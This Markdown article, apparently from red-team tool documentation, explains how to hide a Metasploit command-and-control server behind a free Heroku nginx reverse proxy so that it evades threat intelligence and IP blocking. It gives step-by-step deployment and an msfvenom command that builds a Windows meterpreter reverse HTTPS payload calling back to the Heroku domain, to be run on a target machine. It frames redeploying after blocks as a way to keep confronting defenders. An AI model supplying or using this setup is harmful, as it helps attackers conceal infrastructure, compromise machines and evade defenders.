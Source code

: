 # Hiding C2 Server Using Heroku (Simple/Zero Cost)

# Preface

This article introduces how to use Heroku to achieve the hiding of C2 services in the metasploit-framework. Compared with the three popular methods of "domain fronting", "CDN",
and "redirection" in the industry for hiding C2, the method introduced in this article is simple to operate and has lower costs (whether it is time cost or financial cost) in the
process of confrontation with "threat intelligence" and "IP blocking".

# Currently Popular C2 Hiding Technologies

"Domain fronting", "CDN", and "redirection" [](https://me.csdn.net/qq_41874930) are the three currently popular C2 hiding technologies. Shanfenglan7 has made a very detailed
explanation in his
article [The Differences in Hiding C2 Using Three Technologies of CDN, Domain Fronting, and Redirection](https://blog.csdn.net/qq_41874930/article/details/109008708). The author
found through actual testing of the three technologies that each technology has some shortcomings.

## Hiding C2 with CDN

The preparatory work for hiding C2 using CDN is roughly as follows:

+ Need to purchase a domain name (you can use a free one through [https://www.freenom.com/](https://www.freenom.com/))
+ Need to purchase CDN services (you can use the free [https://www.cloudflare.com/](https://www.cloudflare.com/))
+ Need to modify DNS records at the CDN service provider
+ Need to wait for the DNS records to take effect (if your domain name is bound to other IPs, this operation requires several hours)

It can be seen that although zero cost can be achieved by combining free services, there are many configuration operations required during the implementation process, and the time
cost and mental cost are too high. If the domain name is not registered anonymously, there is a risk of being traced and sourced.

## Hiding C2 with Domain Fronting

The preparatory work for hiding C2 using domain fronting is roughly as follows:

+ Need to purchase a domain name (you can use a free one through [https://www.freenom.com/](https://www.freenom.com/))
+ Need to purchase CDN services (you can use the free [https://www.cloudflare.com/](https://www.cloudflare.com/))
+ Need to modify DNS records at the CDN service provider
+ Need to wait for the DNS records to take effect (if your domain name is bound to other IPs, this operation requires several hours)
+ Need to know other high-reputation domain names or IPs on the CDN
+ Need to modify the malleable profile file

Domain fronting requires more additional operations than CDN, and the current mainstream CDN service providers have begun to block domain fronting technology.

## Hiding C2 with Redirection

The preparatory work for hiding C2 using redirection is roughly as follows:

+ Need two VPS
+ Use apache or nginx to configure redirection forwarding
+ Need to modify the malleable profile file

Redirection requires some additional encoding and deployment work, and it also needs to expose the IP address of one VPS to "threat intelligence", which may be traced back, and in
fact, the goal of hiding C2 has not been achieved.

# Hiding C2 Server Using Heroku

Heroku is a cloud platform as a service that supports multiple programming languages. Simply put, it can deploy docker containers for free and open web services to the Internet.
The following are the operation steps.

+ First, register a Heroku account. Click to register an account through [https://dashboard.heroku.com](https://dashboard.heroku.com/) (it is recommended to use gmail).
+ After successful registration, log in. After logging in, click on
  the [deployment link](https://dashboard.heroku.com/new?template=https://github.com/FunnyWolf/nginx-proxy-heroku).
+ Fill in the app name as "mydiydomain" (it can be customized. The name is the prefix of the subsequent domain name), and fill in the TARGET environment variable as the C2 handler
  address.

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\1.webp)

+ Then click "Deploy app" and the system will deploy automatically.
+ Add a handler in the metasploit-framework and configure as shown in the figure.

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\2.webp)![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\3.webp)

+ Execute "to_handler" to generate a listener.
+ Use the following command to generate a payload:

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=mydiydomain.herokuapp.com LPORT=443 -f exe -o ~/payload.exe
```

+ Upload and run it on the target machine.

# Running Effect

+ View the session in the metasploit-framework as follows. It can be seen that the link address of the session is the heroku transit server address.

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\4.webp)

+ The packet capture effect on the target machine is as follows:

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\5.webp)

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\6.webp)

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\7.webp)

# Summary

From a technical perspective, hiding C2 with Heroku is very simple. Use the Heroku service to deploy an nginx reverse proxy service. The payload connects to Heroku's nginx, and
nginx forwards the traffic to C2. The specific advantages are as follows:

+ Only need to register a free Heroku account.
+ No need to register or purchase a domain name.
+ It comes with a trusted SSL certificate (the Heroku domain comes with a certificate).
+ If the IP address is blocked, you can delete the original Heroku app and redeploy the Heroku app (about 30s), and continuously confront the defenders.
+ The operation steps are simple.
